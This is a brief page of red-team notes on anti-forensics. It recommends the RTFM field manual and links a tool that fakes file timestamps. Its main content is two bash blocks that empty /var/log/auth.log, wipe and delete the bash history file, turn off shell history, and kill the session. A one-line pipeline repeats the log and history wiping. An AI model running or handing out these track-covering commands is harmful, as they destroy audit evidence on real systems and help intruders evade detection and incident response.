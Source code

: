 
[RTFM](https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504) - really nice physical book that is cheap an dvery slim, but worth many x100 its value.  
```bash
echo "" > /var/log/auth.log
echo "" > ~/.bash_history
rm -rf ~/.bash_history
history -c 
export HISTFILE=0
export HISTSIZE=0
# Log out to take effect
unset HISTFILE
ln /dev/null ~/.bash_history
# Kill current session
kill -9 $$ 
```


```bash
echo "" > /var/log/auth.log | echo "" > ~/.bash_history | kill -9 $$ 
```


int0x80's [lookatallthefeelsiknow](https://github.com/int0x80/anti-forensics/blob/main/lookatallthefeelsiknow) changes system time to random number, modifies a file then resets the system time.  
## References

[RTFM](https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504) 
[lookatallthefeelsiknow](https://github.com/int0x80/anti-forensics/blob/main/lookatallthefeelsiknow) 